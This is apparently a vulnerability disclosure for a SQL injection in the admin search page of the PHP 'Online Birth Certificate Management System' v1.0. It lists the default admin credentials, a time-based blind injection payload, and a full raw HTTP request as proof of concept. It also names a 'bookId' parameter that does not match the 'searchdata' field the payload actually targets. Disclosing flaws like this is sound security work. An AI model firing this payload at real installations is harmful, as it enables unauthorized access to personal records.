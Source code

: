 # Online Birth Certificate Management System - SQL injection

Online Birth Certificate Management System v1.0 exists to contain a SQL injection vulnerability via the bookId parameter at /admin/search.php

username:admin password:admin123 ----> {ip}/admin/search.php

Supplier： https://www.sourcecodester.com/php/15683/online-birth-certificate-management-system-php-free-download.html

/admin/search.php has SQL injection

Payload: search=&searchdata=111'and(select*from(select+sleep(2))a/**/union/**/select+1)='

SQL injection because searchdata can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/1.png)

```sql
POST /CVE/OBCMS/admin/search.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 120
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: user_login=admin; userpassword=admin123; PHPSESSID=4okk1vi8496nglrc7ut709vl37
Origin: http://127.0.0.1
Referer: http://127.0.0.1/CVE/OBCMS/admin/search.php
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

search=&searchdata=111%27and%28select%2Afrom%28select%2Bsleep%280%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/2.png)